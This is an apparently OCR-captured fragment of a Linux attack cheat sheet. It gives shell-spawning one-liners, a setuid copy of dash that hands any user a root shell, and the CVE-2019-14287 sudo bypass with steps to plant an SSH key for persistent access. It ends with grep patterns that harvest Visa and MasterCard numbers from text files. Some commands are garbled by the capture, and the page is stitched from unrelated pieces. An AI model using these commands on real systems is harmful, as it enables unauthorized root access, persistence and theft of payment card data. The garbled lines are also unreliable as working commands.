 #### Bash
```sh
#### Bash
echo os.system('/bin/bash')
/bin/sh -i
exec "/bin/sh";
```

#### Perl
```sh
perl —e 'exec "/bin/sh";'
```

## Dash

```sh
# /bin/dash is the only shell to keep the sticky bit, so if you run as root (included cron, or services running as root): 
install -mode 4755 /bin/dash /tmp/sh
# Then you will have a /tmp/sh that gives any user who calls it root !
```

### Abusing Sudo Rights (CVE 2019-14287)

https://cheatsheet.haax.fr/linux-systems/privilege-escalation/abusing_sudo_rights/

### Exploitable when a user have the following permissions (sudo -l)
```sh
(ALL, !root) ALL
```

### If you have a full TTY, you can exploit it like this
```sh
sudo -u#-1 /bin/bash
```

### If no TTY, you can restart SSH server and add your key
```sh
sudo /etc/init.d/ssh restart
echo 'ssh-rsa AAAA[...snip...]fd48as= root@kali-jms' > authorized_keys
sudo -u#-1 bash
```


### Regex

#### Visa

```sh
grep -E -o "4[0-9]{3}[ -]?[0-9]{4}[ -]?[0-9]{4}[ -]?[0-9]{4}" *.txt > visa.txt
```

#### #MasterCard
```sh
grep -E -o "5[0-9]{3}[ -]?[0-9]{4}[ -]?[0-9]{4}[ -]?[0-9]{4}" *.txt > mastercard.txt
```
